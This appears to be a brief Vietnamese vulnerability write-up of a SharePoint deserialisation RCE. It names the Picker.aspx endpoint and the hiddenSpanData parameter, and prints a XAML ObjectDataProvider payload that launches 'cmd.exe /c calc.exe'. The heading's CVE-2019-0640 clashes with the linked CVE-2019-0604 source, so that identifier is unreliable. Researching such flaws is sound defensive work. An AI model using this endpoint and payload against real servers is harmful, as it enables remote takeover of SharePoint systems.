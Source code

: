 # CVE-2019-0640

---

> **Type:** Remote Code Execution (XML deserialize)
>
> **Endpoint:**``/_layouts/15/Picker.aspx?PickerDialogType=Microsoft.SharePoint.WebControls.ItemPickerDialog,Microsoft.SharePoint,Version=15.0.0.0,Culture=neutral,PublicKeyToken=71e9bce111e9429c``

---

# Phân tích

- URL : **/_layouts/15/Picker.aspx**
- URI query : 
  - PickerDialogType=**Microsoft.SharePoint.WebControls.ItemPickerDialog**
  - PickerDialogType=**Microsoft.SharePoint.Portal.WebControls.ItemPickerDialog**
- Params Post : ``ctl00$PlaceHolderDialogBodySection$ctl05$hiddenSpanData``

- Phân tích code :

![image-20200211135336877](assets/image-20200211135336877.png)

- Khi param ``hiddenpanData`` được bắt đầu với ``__`` , mã chèn vào sẽ được xử lí ở dạng ``xmlSerializer`` và không có kiểm soát đầu vào => RCE
- XML:

```xml
<ResourceDictionary
xmlns="http://schemas.microsoft.com/winfx/2006/xaml/presentation"
xmlns:x="http://schemas.microsoft.com/winfx/2006/xaml"
xmlns:System="clr-namespace:System;assembly=mscorlib"
xmlns:Diag="clr-namespace:System.Diagnostics;assembly=system">
    <ObjectDataProvider x:Key="LaunchCalch" ObjectType="{x:Type Diag:Process}" MethodName="Start">
        <ObjectDataProvider.MethodParameters>
            <System:String>cmd.exe</System:String>
            <System:String>/c calc.exe</System:String>
        </ObjectDataProvider.MethodParameters>
    </ObjectDataProvider>
</ResourceDictionary>
```

---

https://adraft.page/index.php/2019/09/14/cve-2019-0604-sharepoint-rce-forensics-analysis-and-detection-methods/